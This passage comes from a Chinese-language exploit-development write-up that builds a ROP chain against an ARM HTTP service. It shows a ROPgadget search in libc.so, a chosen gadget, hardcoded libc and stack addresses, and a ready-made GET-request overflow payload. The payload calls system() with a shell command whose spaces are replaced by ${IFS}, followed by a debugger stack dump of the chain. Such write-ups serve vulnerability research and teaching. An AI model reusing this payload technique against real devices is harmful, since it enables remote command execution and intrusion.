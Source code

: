 ```
```

目标就是将!fork()改为1，收到连接就跳出循环，这会导致之后不能接受到其他连接。下图左边是修改之前，右图是修改之后

图片20

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01816702a7fed4b4c8.png)

### <a class="reference-link" name="4.3%20ROP-%E5%B0%9D%E8%AF%95%E9%80%9A%E8%BF%87%E5%8F%91%E5%8C%85%E6%89%A7%E8%A1%8C%E4%B8%80%E4%B8%AA%E5%91%BD%E4%BB%A4"></a>4.3 ROP-尝试通过发包执行一个命令

从易到难，最开始我想执行一个命令

也就是system(cmdstr)

要实现这个目标需要将a0指向命令字符串，将pc设置为system函数的地址

我选择的so是libc.so。r0的数据从栈上来，最朴实的想法：

ROPgadget —binary libc.so |grep “ldr r0,”

然后想顺便把pc寄存器也解决下，就找到下面这个gadget

0x00041adc : ldr r0, [sp, #0x14] ; add sp, sp, #0x1c ; pop `{`pc`}` ; andeq r3, r3, r4, asr #8 ; cmp r1, #0 ; bne #0x41b20 ; str r1, [r0, #4] ; str r1, [r0] ; bx lr

这样只需一步就能达到目标。

之前已经知道libc.so的加载地址是0x40000000，cmd字符串的地址是0xbeffbb08，这个是栈中保存字符串的地址,具体位置根据测试+debug得到。

在p32(gadget1)后加’AAAA’*4是调试所得，这样当程序执行到gadget1的时候，sp就指向’AAAA’*4之后的位置

“sh$`{`IFS`}`-c$`{`IFS`}`“ps&gt;/tmp/1”这样写的原因是原url字符串在程序处理过程中会被添加引号“，比如url= aaaaaa，会被处理成aaaaaa” ，所以这里和它配对了下“，然后理所当然使用了sh -c。至于空格，这里使用$`{`IFS`}`替代。

gadget1=0x40041adc<br>
mycmdaddress=0xbeffbb08<br>
system_addr=0x4003AEB8<br>
payload1 = “GET “+’A’*169 + p32(gadget1) +’AAAA’*4 + ‘A’*0x14 + p32(mycmdaddress) + ‘A’*0x4 + p32(system_addr)+”sh$`{`IFS`}`-c$`{`IFS`}`“ps&gt;/tmp/1”+” HTTP/1.1rn”+”Host: 1.1.1.1rnrn”<br>
p.send(payload1)

执行到gadget1

───────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────<br>
0xbeffbae8│+0x0000: 0x41414141 ← $sp<br>
0xbeffbaec│+0x0004: 0x41414141<br>
0xbeffbaf0│+0x0008: 0x41414141<br>
0xbeffbaf4│+0x000c: 0x41414141<br>
0xbeffbaf8│+0x0010: 0x41414141<br>
0xbeffbafc│+0x0014: 0xbeffbb08 #mycmdaddress<br>
0xbeffbb00│+0x0018: 0x41414141<br>
0xbeffbb04│+0x001c: 0x4003aeb8 #system_addr<br>
────────────────────────────────────────────────────────────────────────────────────────────────────────── code:arm:ARM ────<br>
0x40041ad0 ldm r12, `{`r0, r1`}`<br>
0x40041ad4 add r3, sp, #20<br>
0x40041ad8 bl 0x400419d4<br>
→ 0x40041adc ldr r0, [sp, #20]<br>
0x40041ae0 add sp, sp, #28<br>
0x40041ae4 pop `{`pc`}` ; (ldr pc, [sp], #4)
